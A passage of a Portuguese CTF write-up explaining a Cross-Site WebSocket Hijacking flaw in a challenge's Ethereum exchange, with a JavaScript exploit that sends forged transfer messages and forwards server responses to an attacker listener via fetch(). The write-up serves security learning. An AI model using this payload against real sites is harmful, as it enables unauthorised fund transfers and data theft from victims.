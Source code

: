 Essa conexão WebSocket está suscetível a um ataque: se o handshake não usa qualquer tipo de token de sessão como um CSRF token, então qualquer site malicioso que for aberto por uma vítima pode fingir ser a vítima abrindo essa conexão. Esse é o Cross Site WebSocket Hijacking, ou CSWBH, e essa é a vulnerabilidade desse desafio.

O código revela que existem cinco operações que podem ser feitas pela api da exchange: ping, que pega informações básicas do site para mostrar, init, que faz o login ou cadastro; buy, que compra Eth; sell, que vende Eth, e por fim transfer, que transfere Eth de um usuário para o outro. Tendo isso em mãos, basta montar um pequeno webserver em Python com o site malicioso que criará a conexão e fará as transferências para nossa conta! Sendo isso, fiz um site simples com uma tag script com o código abaixo.

```js
const socket = new WebSocket("ws://localhost:4001","ethexchange-api");

var transfer = JSON.stringify({
	"type":"transfer",
	"content": {
		"amount": 3, // quantidade humilde para teste
		"to_token":"meu_token" // aqui entraria o token do meu user
	}
});

socket.onopen = function (event) {
	// Vários para garantir
	socket.send(transfer);
	socket.send(transfer);
	socket.send(transfer);
}

socket.onmessage = function (event) {
	fetch("http://localhost:8000/?response=" + event.data);
}
```

O código fará várias tentativas de transfer de Eth para a minha conta e para cada resposta do servidor, enviará a mensagem para o localhost porta 8000 em forma de parâmetro de requisição e ela poderá ser vista na lista de requests do servidor Python aberto com `python -m http.server`. Com isso, conseguimos a resposta abaixo:

![Primeira tentativa de exploit](/blog/writeup-wectf-2021/exploit-parte-1.png)

